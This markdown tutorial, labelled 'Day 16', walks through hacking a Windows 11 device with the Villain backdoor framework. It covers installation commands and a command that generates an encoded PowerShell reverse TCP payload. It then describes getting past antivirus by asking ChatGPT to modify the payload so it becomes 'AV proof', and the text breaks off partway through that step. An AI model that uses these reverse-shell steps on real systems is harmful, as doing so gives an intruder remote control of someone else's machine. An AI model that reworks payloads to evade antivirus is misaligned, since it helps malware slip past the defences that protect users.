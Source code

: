 # ♦ Day 16
</br>
</br>

## ◙ ***Note***
 </br>
  There is an update in rockyou.txt file containing a far better number of word combinations 
  </br>
  
  ⇨ [Rockyou.txt](https://github.com/hkphh/rockyou2024.txt)
 </br>
# ♦ Hacking Windows 11 :
   ***• Introducing Villan Framework***
   </br>
      Villain is a Windows & Linux backdoor generator and multi-session handler that allows users to connect with sibling servers (other machines running Villain) and share their backdoor sessions, handy for working as a team. [Villan](https://github.com/keralahacker/Villain/)
   </br>
   ⇨ In this Sessioin we will be learning to how to use Villan framework to get into OR Hack a Windows 11 device 
   </br>
   </br>
### ◙ Step-By-Step Guide 
</br >

### • 1. Installation of Villan Framework :

    git clone https://github.com/t3l3machus/Villain
    cd ./Villain
    pip3 install -r requirements.txt

• Now add the x parameter in the file and exicute it:

    chmod +x villan.py

• Now exicute with python

    python3 villan.py

> For details use "help" command


### • 2. Generate a paylaod : 

 To understand how to generate a paylaod we will use the command 

    help generate

• Generate a paylaod from the example for the wwindows

    generate payload=windows/netcat/powershell_reverse_tcp lhost=eth0 encode

 Now try runing the generated payload in powershell

</br>

***◙ Improving the Payload***
 As we can see that the paylaod has been shot down by the AV so we have to do some changes in tht so it can't be detected by the AV.
 </br>
  </br>
 • For doingb such changes we will be using Our beloved ***"CHAT GPT"*** in such a manner >
  </br>

 ### • 1.
      >give the payload< analyse this code and modify the code to be more AV proof need this code in ps1 file
   
      
